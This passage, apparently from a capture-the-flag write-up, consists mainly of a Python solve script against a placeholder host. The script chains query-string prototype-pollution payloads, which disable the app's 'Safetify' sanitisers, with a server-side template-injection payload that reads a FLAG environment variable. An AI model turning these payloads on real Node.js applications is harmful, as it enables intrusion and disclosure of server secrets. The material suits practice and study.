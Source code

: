 ```py
import requests
from bs4 import BeautifulSoup

url = 'http://HOST:PORT'

def overwriteRegExp():
	params = '/?constructor[name][constructor][SafetifyRegExp]=z'
	r = requests.get(url=url+params)

def overwriteFunc():
	params = '/?constructor[name][constructor][SafetifyFunc]=c'
	r = requests.get(url=url+params)

def getFlag():
	overwriteRegExp()
	overwriteFunc()
	params = {'content':'p #{this.prozess.env.FLAG}'}
	r = requests.get(url=url,params=params)
	sourp = BeautifulSoup(r.content,'html.parser')
	flag = sourp('p')[4]
	print(flag)

getFlag()
```
![image](https://user-images.githubusercontent.com/54855855/141356271-3182b2a4-ed1a-4e7c-a6de-f6ef30c60460.png)